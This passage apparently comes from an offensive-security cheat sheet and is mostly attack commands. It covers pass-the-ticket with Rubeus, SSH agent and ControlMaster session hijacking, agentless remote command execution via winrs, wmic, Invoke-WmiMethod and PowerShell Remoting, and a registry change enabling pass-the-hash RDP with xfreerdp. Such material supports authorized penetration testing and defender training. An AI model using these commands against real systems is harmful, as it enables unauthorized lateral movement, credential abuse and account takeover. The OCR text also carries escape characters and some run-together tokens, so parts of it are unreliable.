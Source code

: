 	- Directly on the target system \(for cobalt strike use the make\_token \+ kerberos\_ticket\_use method\) \([Rubeus](https://github.com/GhostPack/Rubeus)\): `rubeus.exe ptt /ticket:<path to ticket.kirbi> | <kirbi base64 string>`
	- On your attacking system:
		- 1\. \(optional\) In the case of a computer account, add its FQDN to your local '/etc/hosts' file
		- 2\. Set \.ccache ticket as environment variable: `export KRB5CCNAME=</path/to/Administrator.ccache>`
		- 3\. Make sure that your time is synchronized with the target DC to use kerberos
		- 4\. It is now possible to run tools in the context of  the impersonated user against a specific resource \(if you only control the service account\) or all resources \(if you control the computer account\)\. 

#### _SSH hijacking using SSH\-Agent and SSH Agent forwarding:_
>This attack requires root privileges on the current system\. 
- 1\. List all SSH connections: `ps aux | grep ssh`
- 2\. Get the process ID \(PID\) values for the SSH processes: `pstree -p <user> | grep ssh`
- 3\. List the content of the PID's environment bash file: `cat /proc/<number>/environ`
- 4\. Search for the variable 'SSH\_AUTH\_SOCK' and note the ssh session file to which it points
- 5\. Set SSH variable to own session: `SSH_AUTH_SOCK=</tmp/ssh-7OgTFiQJhL/agent.16380> ssh-add -l`
- 6\. Login to the target system leveraging the SSH session: `SSH_AUTH_SOCK=</tmp/ssh-7OgTFiQJhL/agent.16380> ssh <user>@victim`

#### _SSH hijacking leveraging ControlMaster:_
- 1\. Check in every accessible /home/user/\.ssh/controlmaster directory for the existence of SSH socket files \(e\.g\. user@victim:22\)
- 2\. If not already, su to the user that owns the socket file
- 3\. SSH hijack the session and gain access to the target system without specifying the user's password: `ssh <user>@<target system>`


---
### __Agentless RCE & starting a remote beacon:__
#### _Native Windows tools:_
- WinRS: run remote command: `winrs -r:<FQDN> (-u:<domain>\<username> -p:<password>) <COMMAND (e.g. powershell.exe -Command "pwd")>`
- wmic: run remote command: `wmic /node:"<target system name>" /user:<domain>\<username> /password:<password> process call create "cmd /c <command>"`
- Invoke\-WmiMethod: remotely run binary \(requires that the payload is already uploaded to the target system\): `Invoke-WmiMethod –ComputerName <FQDN target host> -Class win32_process -Namecreate -ArgumentList "C:\Users\Public\Documents\binary.exe"`
- PowerShell Remoting: run remote command: `$SecPass = ConvertTo-SecureString '<password>' -AsPlainText -Force; $Cred = New-Object System.Management.Automation.PSCredential(‘<domain>\<username>’, $SecPass); Invoke-Command -Computername <target FQDN> -Credential $Cred -ScriptBlock {<command to execute>}`

#### _Start RDP session:_
- Disable restricted admin access: `New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force`
- Start RDP session from Linux system \(supports password and NTLM\): `xfreerdp /u:<USER> /d:<DOMAIN> /pth:<NTLM\-HASH> /v:<IP target> (/timeout:<time in ms to deal with high latency>)`
